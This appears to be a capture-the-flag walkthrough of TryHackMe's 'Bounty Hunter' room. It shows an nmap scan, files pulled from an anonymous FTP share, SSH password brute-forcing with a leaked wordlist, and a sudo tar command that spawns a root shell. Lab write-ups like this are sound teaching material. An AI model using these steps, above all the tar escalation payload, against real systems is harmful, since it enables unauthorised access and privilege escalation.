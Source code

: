 # Bounty Hunter | Tryhackme

***
## Difficulty = Easy
***

## **Nmap Scan**  


Running our nmap scan we have :

```powershell
# Nmap 7.94 scan initiated Fri Sep 22 14:18:11 2023 as: nmap -p- -sVC -T4 --min-rate=1000 -v -oN nmap.txt 10.10.163.201
Warning: 10.10.163.201 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.163.201
Host is up (0.15s latency).
Not shown: 55625 filtered tcp ports (no-response), 9907 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.60.103
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 22 14:25:12 2023 -- 1 IP address (1 host up) scanned in 420.37 seconds
```



## **FTP Enumeration**

- Nmap already told us we have two files here so we can download them with the following command :

```powershell
$ wget -m --no-passive ftp://anonymous:anonymous@10.10.163.201
```


- We can then Navigate to the `10.10.163.201` Folder, to enumerate further.

![](https://i.imgur.com/X0WLZ0u.png)


- We have a task from `lin` and some kind of wordlist from `locks.txt` , we can try bruteforcing these

![](https://i.imgur.com/AFlHMgU.png)



## **Foot Hold**

We where able to bruteforce the password of  `lin` with the given `locks.txt`

![](https://i.imgur.com/e3UDuq0.png)


We can then login and get our shell as `lin` and get the flag in the `user.txt` file.

![](https://i.imgur.com/ctzc6Dk.png)


## **Privilege Escalation**

The first thing i do if i get a user that isn't `www-data` is run `sudo -l` to show what commands i can run with **sudo** privileges

- Over here we can run `sudo -l` and as we can see we have permissions to run `/bin/tar`
- That is we can get root using `/bin/tar`

![](https://i.imgur.com/lUCC8cy.png)


- Nice, So, using the payload as shown below, you should be root 🤗

```powershell
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


![](https://i.imgur.com/mNHHbgr.png)

Have fun 🥳


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


